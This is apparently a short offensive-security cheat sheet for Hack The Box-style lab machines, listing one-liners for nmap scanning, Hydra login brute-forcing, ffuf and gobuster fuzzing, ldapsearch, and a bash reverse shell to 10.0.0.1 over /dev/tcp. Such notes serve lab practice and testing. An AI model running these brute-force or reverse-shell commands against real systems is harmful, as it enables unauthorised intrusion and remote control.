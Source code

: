 **nmap**
```
ports=$(nmap -p- --min-rate=1000 -T4 10.13.38.11 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -sC -sV 10.13.38.11
```

**Bash reverse shell**
```
bash -c "bash -i >& /dev/tcp/10.0.0.1/8080 0>&1"
```
**Hydra**
```
hydra -L users.txt -P pass.txt product.player2.htb http-post-form "/index:username=^USER^&password=^PASS^&Submit=Sign in:Nope"
```
**ffuf vhost fuzzing**
```
~/go/bin/ffuf -v -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt:VHOST -H "Host: VHOST.player2.htb" -fl "4"  -u http://player2.htb
```
**gobuster**
```
gobuster dir -t 50 -u http://player2.htb -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt -x .php
```
**ldapsearch**

Find root 

```
ldapsearch -x -h 10.10.10.119 -s base namingcontexts
```
